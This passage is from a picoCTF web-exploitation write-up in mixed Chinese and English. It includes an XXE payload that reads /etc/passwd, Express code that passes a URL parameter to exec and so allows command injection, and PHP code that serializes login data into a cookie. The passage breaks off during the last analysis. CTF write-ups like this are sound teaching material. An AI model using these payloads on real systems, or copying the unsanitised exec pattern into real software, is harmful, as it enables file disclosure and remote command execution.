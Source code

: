 + `<!DOCTYPE data [<!ENTITY file SYSTEM “file:///etc/passwd” >]>` : 定義了一個名為 "file" 的實體，其內容是 /etc/passwd 文件的內容。
+ `<data><ID>&file;</ID></data>` : 引用file實體，將其插入到XML文檔的相應部分。


`Flag` : picoCTF{XML_3xtern@l_3nt1t1ty_0e13660d}
`REF` : https://github.com/DanArmor/picoCTF-2023-writeup/blob/main/Web%20Exploitation/SOAP/SOAP.md
https://hackmd.io/@5hErry/HJUMum0kh


caas 
--
`command injection`

+ `index.js`
```javascript=
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
    // it exec the message
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});
```

![image](https://hackmd.io/_uploads/BJETYwctp.png)

![image](https://hackmd.io/_uploads/Sy1M5P5Kp.png)


`Flag` : picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}


Super Serial
--

+ `index.phps`
```php=
?php
require_once("cookie.php"); //cookie.phps

if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("../users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php"); //authentication.phps
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
?>
```
+ 發現登入建立了一個permissions對象，該對像被序列化，然後放入該login對像中。您還可以看到還有 2 個可以使用 phps 擴展名讀取的 php 文件，cookie.phps以及authentication.phps.